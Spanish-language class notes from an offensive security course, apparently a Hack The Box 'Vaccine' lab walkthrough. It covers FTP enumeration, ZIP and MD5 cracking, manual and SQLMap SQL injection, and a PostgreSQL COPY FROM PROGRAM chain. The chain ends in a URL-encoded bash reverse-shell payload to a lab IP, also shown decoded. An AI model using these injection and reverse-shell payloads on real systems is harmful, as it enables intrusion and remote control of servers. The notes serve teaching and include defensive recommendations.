



---
tags:
- Auditoría web
date: '2026-09-08'
---

# SQLi Inyecciones Labs I

2026-09-08

**SQLi - Inyecciones - Labs I**

**Máster de Ciberseguridad Ofensiva · Evolve Academy**

| **Campo** | **Valor** |
| --- | --- |
| Profesor | Carlos Castillo |
| Fecha de clase | 08/09/2026 |
| Materia | SQL Injection · metodología, explotación manual y automatizada |
| Laboratorio | Hack The Box Starting Point · máquina identificada por contexto como Vaccine |
| Objetivo de la sesión | Repasar metodología, SQLMap y Burp Suite; iniciar SQLi manual y llegar a ejecución de comandos / reverse shell en laboratorio autorizado |

|  |
| --- |
| **Criterio de fidelidad —** Estos apuntes se basan en la transcripción y las capturas aportadas. No se incluyen contraseñas de ZIP, hashes completos, versiones o flags que no hayan quedado registrados con suficiente fiabilidad. Las ampliaciones externas aparecen separadas y etiquetadas. |

# 1. Objetivos y resumen de la sesión

- Repasar la metodología básica de enumeración sobre una máquina de Hack The Box Starting Point.
- Revisar FTP anónimo, descarga de un backup y cracking local de un ZIP con zip2john y John the Ripper.
- Analizar el código fuente recuperado para obtener información del login y comprender el uso de MD5.
- Detectar y explotar una SQL Injection en el parámetro search de un catálogo web.
- Comparar explotación manual (comillas, OR, ORDER BY, UNION SELECT) frente a SQLMap.
- Usar Burp Suite Repeater para trabajar con la petición autenticada de forma controlada.
- Entender cómo una SQLi en PostgreSQL puede derivar en ejecución de comandos cuando el usuario de base de datos posee privilegios suficientes.
- Conseguir una reverse shell en el laboratorio mediante una cadena manual con COPY ... FROM PROGRAM.

|  |
| --- |
| **Resultado final confirmado —** La sesión terminó con ejecución de comandos en el servidor y una reverse shell obtenida manualmente a través de la SQL Injection. No se realizó escalada de privilegios. |

# 2. Entorno y evidencias de la práctica

| **Dato** | **Valor** | **Evidencia/nota** |
| --- | --- | --- |
| Objetivo web | 10.129.95.174 | Visible en navegador y Burp Suite durante la sesión. |
| IP de Kali/VPN | 10.10.14.177 | Visible en la máquina del profesor y usada como destino de la reverse shell. |
| Puerto de callback | 7777/TCP | Usado en el payload de reverse shell. |
| Sistema atacante | Kali Linux en VirtualBox | Visible en las capturas. |
| Aplicación | MegaCorp Car Catalogue | Catálogo con buscador en dashboard.php?search=. |
| Acceso web | Admin Dashboard | Se accedió con credenciales recuperadas del backup. |
| DBMS detectado | PostgreSQL | Identificado por SQLMap durante la explotación. |

|  |
| --- |
| **Dato dependiente de la sesión —** Las IP 10.129.95.174 y 10.10.14.177 pertenecen a esta ejecución del laboratorio. No deben tratarse como valores permanentes para futuras sesiones. |

*Captura de clase: MegaCorp Car Catalogue en 10.129.95.174 con el parámetro search.*

# 3. Relación con las fases de auditoría

| **Fase** | **Acciones de la sesión** | **Objetivo** |
| --- | --- | --- |
| Planificación | Conexión al entorno HTB Starting Point y uso de su VPN específica. Comprobación previa de conectividad. | Delimitar el objetivo autorizado y asegurar acceso al laboratorio. |
| Recogida de información | Ping, escaneo de puertos, revisión de FTP/SSH/HTTP, navegación web, enumeración del FTP anónimo. | Obtener servicios, superficie de ataque y artefactos disponibles. |
| Análisis de vulnerabilidades | Evaluación del backup expuesto, revisión del código fuente, MD5, ausencia de HttpOnly mencionada en clase, pruebas con comillas y ORDER BY. | Determinar qué hallazgos son realmente explotables y cómo. |
| Pruebas de explotación controladas | Cracking local del ZIP, acceso al dashboard, explotación SQLi con SQLMap/Burp, ejecución de comandos y reverse shell. | Validar impacto de los fallos sin salir del entorno autorizado. |

|  |
| --- |
| **Metodología —** El profesor insistió en no entrar en “modo automático”: primero observar, priorizar y comprender cada paso; después automatizar cuando aporte comodidad. |

# 4. Recogida de información y priorización

## 4.1 Conectividad y Nmap

Se comenzó comprobando conectividad con ping. El profesor observó TTL 63 y lo utilizó como indicio de un objetivo Linux. Este dato sirve para orientar, pero no debe tomarse como prueba aislada del sistema operativo.

El escaneo mostró tres puertos TCP abiertos: 21, 22 y 80. La metodología fue priorizar el servicio que ofrecía información directa antes de intentar ataques de fuerza bruta o buscar exploits sin contexto.

| **Puerto** | **Servicio visto** | **Decisión metodológica** |
| --- | --- | --- |
| 21/tcp | FTP | Alta prioridad: Nmap indicaba acceso anónimo y mostraba backup.zip. |
| 22/tcp | SSH | Se comentó su utilidad para enumerar usuarios o reutilizar credenciales, pero no se explotó en esta sesión. |
| 80/tcp | HTTP | Aplicación web principal; inicialmente mostraba un login y después el catálogo con buscador. |

|  |
| --- |
| **Pendiente de confirmar —** La transcripción no conserva con fiabilidad los números exactos de versión de vsftpd, OpenSSH o Apache. El profesor indicó que la versión FTP observada no era la versión vulnerable famosa, pero no confirmó el número exacto; no se registra CVE. |

## 4.2 VPN de Starting Point

Durante la clase hubo un problema inicial porque se estaba usando una VPN que no correspondía al entorno de Starting Point. Tras cambiar a la VPN específica, la conectividad funcionó.

|  |
| --- |
| **Diagnóstico práctico —** Si ping, Nmap o la web no responden en este laboratorio, revisar primero que la VPN activa sea la de Starting Point antes de interpretar el fallo como un problema del objetivo. |

# 5. FTP anónimo, backup y cracking local

## 5.1 Acceso y descarga

Nmap indicó que el FTP permitía login anónimo. El profesor entró al servicio, comprobó el directorio y descargó backup.zip. Se mencionaron las siguientes operaciones:

|  |
| --- |
| mget \* get backup.zip |

La idea metodológica fue valorar si el contenido del backup justificaba invertir tiempo en crackearlo. En este caso sí: el archivo contenía index.php y style.css, y el código PHP podía revelar lógica del servidor.

## 5.2 Extracción del material para John

El ZIP estaba protegido con contraseña. En lugar de atacar un servicio remoto, se realizó fuerza bruta local sobre el archivo ya descargado.

|  |
| --- |
| zip2john backup.zip zip2john backup.zip > hashzip john --wordlist=/usr/share/wordlists/rockyou.txt hashzip |

Si John ya había crackeado ese hash en una sesión anterior, el profesor recordó usar:

|  |
| --- |
| john --show hashzip |

|  |
| --- |
| **Importante —** La contraseña concreta del ZIP no aparece de forma legible en el material aportado. No se incluye para evitar inventarla. |

### 5.3 Comando importante: zip2john

| **Elemento** | **Detalle** |
| --- | --- |
| Comando | zip2john backup.zip > hashzip |
| Opciones / sintaxis | backup.zip es el archivo protegido; > redirige la salida al fichero hashzip. |
| Objetivo | Extraer una representación que John pueda atacar. |
| Resultado observado | Se generó contenido de tipo PKZIP y se guardó en hashzip. |
| Interpretación | El ZIP puede someterse a cracking local sin seguir interactuando con el servidor. |
| Riesgo | El cracking puede consumir recursos; en este caso se realiza sobre un artefacto local del laboratorio. |

### 5.4 Comando importante: John the Ripper

| **Elemento** | **Detalle** |
| --- | --- |
| Comando | john --wordlist=/usr/share/wordlists/rockyou.txt hashzip |
| Opciones / sintaxis | --wordlist indica el diccionario; rockyou.txt fue el diccionario usado en clase. |
| Objetivo | Probar candidatos del diccionario contra el hash del ZIP. |
| Resultado esperado | Recuperar la contraseña si existe en el diccionario. |
| Interpretación | Una contraseña débil del backup expuesto permite acceder a sus ficheros. |
| Riesgo | No extrapolar esta fuerza bruta a sistemas reales sin autorización; aquí se ejecuta localmente en HTB. |

# 6. Revisión del código fuente y credenciales

## 6.1 Front-end visible vs código PHP real

La clase distinguió entre el código que el navegador puede mostrar con “ver código fuente” y el código PHP ejecutado en el servidor. El PHP se interpreta en el servidor y no se entrega al cliente como código fuente. Al recuperar index.php desde un backup, sí se obtuvo la lógica del servidor.

También se recalcó que un backup puede ser antiguo. Que el código aparezca en una copia de seguridad no garantiza por sí solo que coincida con la versión desplegada actualmente; hay que validarlo contra el comportamiento real.

## 6.2 Login hardcodeado y MD5

En index.php se observó un login muy simple: el usuario debía ser admin y la contraseña introducida se transformaba a MD5 para compararla con un hash hardcodeado en el código. El hash completo no ha quedado aportado en el material.

Se utilizó CrackStation para recuperar el texto asociado al MD5 y CyberChef para verificar que el texto recuperado producía el mismo digest. La contraseña confirmada del panel fue:

|  |
| --- |
| Usuario: admin Contraseña: qwerty789 |

|  |
| --- |
| **Resultado confirmado —** Con admin / qwerty789 el profesor accedió al Admin Dashboard. |

La lección importante no es “revertir” matemáticamente MD5: CrackStation funciona mediante bases de datos/precomputación y búsquedas de hashes conocidos. Un hash no es cifrado reversible.

# 7. Detección manual de SQL Injection

## 7.1 Comprender el buscador

En el dashboard, el buscador del catálogo reaccionaba al nombre del coche. Buscar valores de Type, Fuel o Engine no devolvía coincidencias, mientras que buscar parte del nombre sí. Esto permitió inferir que la consulta filtraba principalmente por la columna name.

La tabla mostraba cuatro columnas visibles (Name, Type, Fuel, Engine), pero el profesor planteó que podían existir columnas no renderizadas en el front, como un identificador interno.

## 7.2 Forzar error con comilla

El primer test manual fue introducir una comilla simple. La aplicación devolvió un error SQL visible, lo que confirmó que la entrada del usuario estaba afectando a la consulta. A continuación se probó una condición siempre verdadera con OR 1=1 y comentarios para anular la parte restante de la query.

|  |
| --- |
| ' OR 1=1 -- - |

La condición 1=1 es siempre verdadera, por lo que permite alterar la lógica de la consulta cuando la sintaxis encaja con el contexto. En esta aplicación se consiguió que se mostrasen todos los registros.

|  |
| --- |
| **Hallazgo confirmado —** Existe SQL Injection en el parámetro GET search de /dashboard.php. No es una mera posibilidad: se validó manualmente y posteriormente con SQLMap. |

## 7.3 Determinar el número de columnas con ORDER BY

El profesor explicó que ORDER BY permite conocer cuántas columnas devuelve la consulta. Se empieza con un índice que funcione y se incrementa hasta provocar error:

|  |
| --- |
| ' ORDER BY 4 -- - ' ORDER BY 5 -- - ' ORDER BY 6 -- - |

| **Prueba** | **Resultado en clase** | **Conclusión** |
| --- | --- | --- |
| ORDER BY 4 | Funciona | Hay al menos 4 columnas. |
| ORDER BY 5 | Funciona | Existe una quinta columna no visible en el front. |
| ORDER BY 6 | Error | No existe una sexta columna en el resultado. |

|  |
| --- |
| **Conclusión —** La consulta devuelve 5 columnas. Este dato condiciona los UNION SELECT posteriores. |

*Captura de clase: pruebas manuales sobre search y trabajo con UNION SELECT en el catálogo.*

## 7.4 UNION SELECT: idea introducida

Con el número de columnas ya conocido, la clase introdujo el siguiente paso manual: construir un UNION SELECT con cinco posiciones y utilizar NULL para evitar conflictos iniciales de tipo.

|  |
| --- |
| UNION SELECT NULL, NULL, NULL, NULL, NULL |

Después se sustituyen posiciones concretas por valores de prueba, por ejemplo texto, para averiguar compatibilidad de tipos y qué columna se refleja en la respuesta. El profesor señaló que el campo relacionado con name era el relevante para visualizar datos.

|  |
| --- |
| **Continuación prevista —** La explotación manual completa se dejó para la siguiente sesión práctica: terminar tipos de datos, columnas reflejadas y extracción paso a paso. |

# 8. Burp Suite Repeater como entorno de trabajo

El profesor recomendó capturar la petición autenticada con Burp Suite y enviarla a Repeater. La ventaja principal es repetir y modificar payloads sin reconstruir la petición completa desde el navegador, manteniendo host, cookies y cabeceras.

| **Acción** | **Qué aporta** |
| --- | --- |
| Interceptar la petición | Permite ver exactamente el GET /dashboard.php?search= y la cookie de sesión. |
| Send to Repeater | Crea un entorno repetible para editar search y reenviar. |
| Comparar ORDER BY 5/6 | ORDER BY 5 devuelve respuesta válida; 6 provoca error. |
| Render | Permite visualizar la respuesta de la aplicación dentro de Burp. |
| Copy to file | Guarda la petición completa para usarla posteriormente con sqlmap -r. |

*Captura de clase: Burp Suite Repeater con el endpoint vulnerable y el payload de ejecución de comandos.*

# 9. SQLMap: explotación automática

## 9.1 Por qué la URL sola no bastaba

La ruta vulnerable estaba detrás de autenticación. Al lanzar SQLMap solo contra la URL, el servidor respondía con un 302 hacia el login. Por eso era necesario conservar la sesión mediante la cookie o proporcionar a SQLMap la petición HTTP completa.

## 9.2 Dos formas vistas en clase

Forma A — especificar URL y cookie de forma explícita:

|  |
| --- |
| sqlmap -u 'http://10.129.95.174/dashboard.php?search=...' --cookie='PHPSESSID=<valor\_de\_sesion>' |

|  |
| --- |
| **Plantilla, no comando literal —** El valor de PHPSESSID no se conserva en los apuntes porque es una cookie de sesión temporal. Los puntos suspensivos indican el parámetro de prueba, no un valor real. |

Forma B — guardar desde Burp la request completa y cargarla con -r:

|  |
| --- |
| sqlmap -r /ruta/al/request --dbs |

Esta segunda opción evita tener que copiar por separado URL, cookies, POST data u otras cabeceras cuando la petición es compleja.

## 9.3 Flujo de enumeración automatizada

| **Opción / parámetro** | **Uso visto en clase** |
| --- | --- |
| -u / --url | Indicar la URL objetivo. |
| --cookie | Enviar la cookie de sesión necesaria para acceder al dashboard. |
| -r REQUESTFILE | Cargar una petición HTTP completa exportada desde Burp. |
| --data | Especificar datos POST cuando el punto de inyección está en el cuerpo. |
| --dbs | Enumerar los espacios de datos disponibles. |
| -D <nombre> | Seleccionar el espacio/base con el que continuar. |
| --tables | Enumerar tablas. |
| -T <tabla> | Seleccionar una tabla concreta. |
| --columns | Enumerar columnas (explicado, aunque el profesor prefirió a veces ir directo a dump). |
| --dump | Extraer el contenido de la tabla seleccionada. |
| --dump-all | Intentar extraer todo; el profesor advirtió del ruido y del tiempo. |
| --sql-query | Ejecutar una consulta SQL específica a través de SQLMap. |
| --batch | Aceptar comportamiento por defecto sin preguntas interactivas. |
| --tor | Encaminar las peticiones de SQLMap a través de Tor (mencionado en clase). |
| --threads | Aumentar concurrencia, especialmente útil en técnicas blind. |
| --risk / --level | Modificar alcance y agresividad de las pruebas. |
| --os-cmd | Ejecutar un comando del sistema operativo si el contexto lo permite. |
| --os-shell | Intentar obtener una shell interactiva del sistema operativo. |

SQLMap identificó el back-end como PostgreSQL y confirmó que el parámetro search era inyectable. Durante la navegación de datos aparecieron information\_schema, pg\_catalog y public; al buscar la tabla cars se terminó trabajando sobre public.

|  |
| --- |
| **Matiz técnico —** En PostgreSQL, information\_schema, pg\_catalog y public son esquemas. La clase los trató dentro del flujo de “bases de datos” de SQLMap; conviene distinguir la terminología del DBMS de la abstracción que muestra la herramienta. |

## 9.4 Sesiones y caché de SQLMap

El profesor explicó que SQLMap guarda información de cada objetivo y puede reutilizar resultados ya detectados. La idea se comparó con john --show: si la herramienta ya conoce el estado de una ejecución anterior, puede recuperarlo sin repetir todo desde cero.

# 10. Ampliación técnica verificada: SQLMap

|  |
| --- |
| **Ampliación técnica —** Esta sección no procede directamente de la clase. Se ha contrastado con la documentación oficial actual de sqlmap para corregir matices que pueden variar entre versiones. |

- -r carga una petición HTTP completa desde un fichero; por eso puede evitar repetir manualmente cookies y datos POST.
- --data envía datos POST y hace que esos parámetros también se prueben como puntos de inyección.
- GET y POST se prueban por defecto. Con --level >= 2 también se prueban valores de Cookie; con --level >= 3 se incluyen User-Agent y Referer. Nivel 5 amplía el conjunto de pruebas y payloads, pero no debe resumirse simplemente como “todas las cabeceras”.
- --risk acepta 1-3 en la documentación actual; risk 3 incluye pruebas OR-based potencialmente más peligrosas.
- --tor existe en la documentación actual y permite que SQLMap utilice la red Tor; su uso no sustituye la autorización del objetivo ni las reglas del laboratorio.
- --threads tiene un máximo de 10 peticiones concurrentes en la documentación actual, principalmente para extracción mediante técnicas blind y operaciones de fuerza bruta.
- --os-cmd ejecuta un comando y --os-shell solicita una shell interactiva cuando el DBMS y los privilegios permiten una técnica de toma de control del sistema operativo.

**Fuente oficial:** [sqlmap Wiki — Usage](https://github.com/sqlmapproject/sqlmap/wiki/usage)

# 11. De SQL Injection a ejecución de comandos en PostgreSQL

## 11.1 Concepto visto en clase

La parte final de la sesión mostró que una SQLi no implica automáticamente RCE. En este laboratorio, el usuario efectivo de PostgreSQL tenía privilegios suficientes para utilizar una funcionalidad que ejecuta un programa en el servidor: COPY ... FROM PROGRAM.

La cadena manual enseñada fue: eliminar una tabla auxiliar si ya existe, crearla de nuevo, ejecutar un programa y copiar su salida a la tabla. Para repetir comandos, la tabla puede recrearse y reutilizarse.

|  |
| --- |
| DROP TABLE IF EXISTS x; CREATE TABLE x(o text); COPY x FROM PROGRAM 'id'; |

|  |
| --- |
| **Interpretación —** COPY FROM PROGRAM ejecuta el comando en el servidor de PostgreSQL, no en el equipo atacante. El proceso corre con los permisos del usuario del sistema que ejecuta PostgreSQL. |

## 11.2 Payload exacto aportado en la captura

|  |
| --- |
| /dashboard.php?search='%3b+DROP+TABLE+IF+EXISTS+x%3b+CREATE+TABLE+x(o+text)%3b+COPY+x+FROM+PROGRAM+'bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.177/7777+0>%261"'%3b+--+- |

Interpretado/decodificado para estudiar su estructura:

|  |
| --- |
| '; DROP TABLE IF EXISTS x; CREATE TABLE x(o text); COPY x FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.177/7777 0>&1"'; -- - |

| **Parte** | **Función** |
| --- | --- |
| ' ; | Cierra el contexto de la consulta original y empieza una nueva sentencia. |
| DROP TABLE IF EXISTS x; | Elimina la tabla auxiliar si ya existe, evitando conflicto al repetir la prueba. |
| CREATE TABLE x(o text); | Crea una tabla con una columna de texto para recibir salida. |
| COPY x FROM PROGRAM ...; | Pide al servidor PostgreSQL ejecutar el programa indicado y leer su salida. |
| bash -c "bash -i ..." | Lanza una shell Bash que conecta de vuelta con Kali. |
| 10.10.14.177/7777 | IP y puerto de callback utilizados en esta sesión. |
| -- - | Comenta el resto de la consulta original para evitar errores de sintaxis. |

|  |
| --- |
| **Resultado confirmado —** Tras preparar la escucha en Kali y enviar el payload, el profesor mostró que la conexión entró y dio por obtenida la shell. |

|  |
| --- |
| **Pendiente de confirmar —** La transcripción no conserva con fiabilidad todos los flags del comando netcat usado como listener. Solo queda confirmado que se escuchó en el puerto 7777; no se inventa una sintaxis exacta. |

# 12. Ampliación técnica verificada: privilegios de COPY PROGRAM

|  |
| --- |
| **Ampliación técnica —** La documentación actual de PostgreSQL confirma que PROGRAM ejecuta el comando desde el servidor. Esta capacidad está restringida: requiere superusuario o el rol pg\_execute\_server\_program. Por tanto, no basta con “tener SQLi”; hacen falta privilegios efectivos suficientes en la sesión de base de datos. |

En el laboratorio no se mostró el nombre exacto del rol/usuario de PostgreSQL. La evidencia práctica es que la operación funcionó, por lo que el usuario empleado por la aplicación tenía permisos efectivos suficientes para esta función.

**Fuente oficial:** [PostgreSQL 18 — COPY](https://www.postgresql.org/docs/current/sql-copy.html)

# 13. Manual vs automática: comparación clave

| **Aspecto** | **Manual** | **SQLMap** |
| --- | --- | --- |
| Punto de partida | Comprobar sintaxis y comportamiento paso a paso. | Proporcionar URL/request y contexto de sesión. |
| Número de columnas | ORDER BY hasta encontrar el límite. | Lo descubre internamente mediante sus pruebas. |
| Tipos / columnas reflejadas | UNION SELECT y sustitución de NULL/valores. | Automatiza detección y extracción. |
| Enumeración | Construir consultas manualmente. | --dbs, --tables, --columns, --dump. |
| Autenticación | Burp/navegador mantiene la sesión. | --cookie o -r con la request completa. |
| RCE | Construir stacked queries/COPY PROGRAM según el DBMS y permisos. | --os-cmd / --os-shell cuando la técnica es viable. |
| Ventaja | Comprensión, control fino y menos ruido si se hace bien. | Rapidez, comodidad y gran cobertura. |
| Riesgo | Errores manuales de sintaxis y proceso más lento. | Puede generar mucho ruido, hacer muchas peticiones y ocultar el “por qué” si se usa sin entender. |

|  |
| --- |
| **Idea central de la sesión —** SQLMap no sustituye la metodología. El objetivo docente fue entender qué automatiza para poder diagnosticar fallos, reducir ruido y saber continuar manualmente cuando la herramienta no funciona. |

# 14. Hallazgos, riesgos y buenas prácticas

| **Hallazgo** | **Estado** | **Impacto demostrado / comentario** |
| --- | --- | --- |
| FTP anónimo habilitado | Confirmado | Permitió acceder al contenido del FTP sin credenciales. |
| backup.zip expuesto | Confirmado | Permitió descargar código de la aplicación para análisis local. |
| ZIP protegido con contraseña débil o crackeable | Confirmado por el cracking | Dio acceso a index.php y style.css. La contraseña exacta no se conserva. |
| Credenciales/lógica hardcodeadas en código PHP | Confirmado | El backup reveló admin y un hash MD5 del password. |
| Uso de MD5 para comprobar password | Confirmado | El hash pudo resolverse con CrackStation y verificarse con CyberChef. |
| Falta de HttpOnly mencionada por Nmap | Mencionado en clase | Puede facilitar acceso a la cookie desde JavaScript si existe XSS; no fue el vector principal de esta práctica. |
| SQL Injection en search | Confirmado | Permitió alterar consultas, enumerar datos y habilitar el camino hacia RCE. |
| Privilegios PostgreSQL suficientes para COPY PROGRAM | Confirmado por efecto | Permitieron ejecutar comandos del sistema y abrir reverse shell. |
| Escalada de privilegios | No realizada | Fuera del objetivo de la sesión. |

## 14.1 Ampliación técnica defensiva derivada de los hallazgos

|  |
| --- |
| **Ampliación técnica —** Las medidas de esta subsección son recomendaciones defensivas generales derivadas de los hallazgos; no todas fueron formuladas literalmente por el profesor. |

- No publicar backups dentro de rutas accesibles desde servicios expuestos; almacenarlos separados y con controles de acceso.
- No hardcodear credenciales ni hashes de autenticación dentro del código fuente desplegado o de copias accesibles.
- No utilizar MD5 como mecanismo de almacenamiento de contraseñas; usar funciones específicas de password hashing con coste adaptativo.
- Usar consultas parametrizadas/prepared statements para evitar que la entrada del usuario modifique la estructura SQL.
- Aplicar principio de mínimo privilegio al usuario de la base de datos usado por la aplicación; no conceder pg\_execute\_server\_program si no es estrictamente necesario.
- Proteger cookies de sesión con atributos adecuados, incluyendo HttpOnly cuando corresponda.
- Mantener copias de seguridad aisladas y, cuando el escenario lo requiera, fuera de línea o fuera del alcance directo de la red de producción.

# 15. Flujo completo de la sesión

**PLANIFICACIÓN**

↓ Conectar a HTB Starting Point con su VPN específica

**RECOGIDA DE INFORMACIÓN**

↓ Ping → Nmap → 21/FTP · 22/SSH · 80/HTTP

↓ FTP anónimo → backup.zip

**ANÁLISIS DE VULNERABILIDADES**

↓ zip2john → John → descomprimir backup

↓ index.php → usuario admin + hash MD5 → CrackStation/CyberChef

↓ Login al Admin Dashboard

↓ search → comilla → error SQL → OR 1=1

↓ ORDER BY 4 OK → 5 OK → 6 ERROR → 5 columnas

**PRUEBAS DE EXPLOTACIÓN CONTROLADAS**

↓ Burp Repeater → request autenticada

↓ SQLMap → PostgreSQL → enumeración / dump / consultas

↓ SQLi apilada → COPY FROM PROGRAM

↓ reverse shell a 10.10.14.177:7777

FIN DE SESIÓN: shell obtenida; sin escalada de privilegios

# 16. Comandos, payloads y parámetros vistos

| **Comando / estructura** | **Uso en la sesión** | **Estado** |
| --- | --- | --- |
| zip2john backup.zip | Extraer el material del ZIP para John. | Visto exacto |
| zip2john backup.zip > hashzip | Guardar la salida en hashzip. | Visto exacto |
| john --wordlist=/usr/share/wordlists/rockyou.txt hashzip | Cracking del ZIP con rockyou.txt. | Visto exacto |
| john --show hashzip | Mostrar resultado previamente crackeado. | Mencionado exacto |
| mget \* | Descargar todo desde FTP. | Mencionado |
| get backup.zip | Descargar el backup concreto. | Mencionado |
| ' OR 1=1 -- - | Alterar la condición WHERE y comentar el resto. | Estructura practicada |
| ' ORDER BY 5 -- - | Validar que la consulta admite cinco columnas. | Practicado |
| ' ORDER BY 6 -- - | Provocar error y fijar el límite en cinco columnas. | Practicado |
| UNION SELECT NULL,NULL,NULL,NULL,NULL | Base para estudiar tipos/reflejo con cinco columnas. | Estructura explicada |
| sqlmap -r <request> --dbs | Cargar request de Burp y enumerar. | Estructura practicada |
| --tables / -T / --columns / --dump / --dump-all | Enumeración y extracción con SQLMap. | Practicado/explicado |
| --sql-query | Ejecutar consultas SQL a través de SQLMap. | Practicado |
| --batch / --tor / --threads / --risk / --level | Interacción, red/proxy, concurrencia y detección. | Explicado |
| --os-cmd / --os-shell | Ejecución de comandos / shell si los privilegios lo permiten. | Intentado/explicado |
| DROP TABLE IF EXISTS x; CREATE TABLE x(o text); COPY x FROM PROGRAM ... | Cadena manual PostgreSQL para ejecución de programas. | Practicado y confirmado |

# 17. Registro de herramientas

| **Herramienta** | **Objetivo** | **Fase de auditoría** | **Comando/uso visto** | **Nivel** | **Notas** |
| --- | --- | --- | --- | --- | --- |
| Nmap | Descubrir puertos/servicios | Recogida de información | Escaneo TCP; -sVC y puertos 21,22,80 mencionados | Recurrente | También se mencionó UDP con -sU como recordatorio. |
| FTP client | Acceder al servicio anónimo | Recogida de información | Anonymous; mget \*; get backup.zip | Practicada | El propio Nmap ya adelantaba el archivo. |
| zip2john | Preparar hash de ZIP | Pruebas de explotación controladas | zip2john backup.zip > hashzip | Practicada | Convierte el ZIP a formato procesable por John. |
| John the Ripper | Cracking local | Pruebas de explotación controladas | --wordlist=...rockyou.txt; --show | Recurrente | No se conserva la contraseña concreta del ZIP. |
| CrackStation | Resolver hash MD5 conocido | Análisis de vulnerabilidades | Consulta del MD5 del login | Practicada | Se recuperó qwerty789. |
| CyberChef | Verificar digest MD5 | Análisis de vulnerabilidades | Generar MD5 de qwerty789 | Practicada | Se usó como comprobación. |
| Burp Suite Repeater | Modificar y repetir requests | Análisis / explotación | Captura, Repeater, Render, Copy to file | Recurrente | Facilita conservar cookie y contexto HTTP. |
| Cookie Editor | Gestionar cookies del navegador | Análisis / explotación | Copiar/exportar cookies | Introducida | Recomendada para peticiones con muchas cookies. |
| SQLMap | Automatizar SQLi | Pruebas de explotación controladas | -u, --cookie, -r, --dbs, --tables, --dump, --os-shell... | Usada en auditoría | La clase comparó su automatización con el proceso manual. |
| Netcat | Recibir reverse shell | Pruebas de explotación controladas | Listener en 7777; flags no legibles | Practicada | No se inventa la sintaxis completa. |
| Hack The Box | Entorno de laboratorio | Planificación | Starting Point + VPN específica | Recurrente | Práctica autorizada. |

# 18. Errores, trampas y lecciones prácticas

- Una VPN incorrecta puede hacer que Nmap parezca fallar. Validar conectividad antes de interpretar resultados.
- No asumir que un backup merece siempre la misma prioridad: revisar qué contiene y qué valor puede aportar.
- Un backup puede ser antiguo; validar contra el comportamiento actual de la aplicación.
- No copiar únicamente “un trozo” del hash de zip2john: redirigir la salida completa a un fichero evita errores.
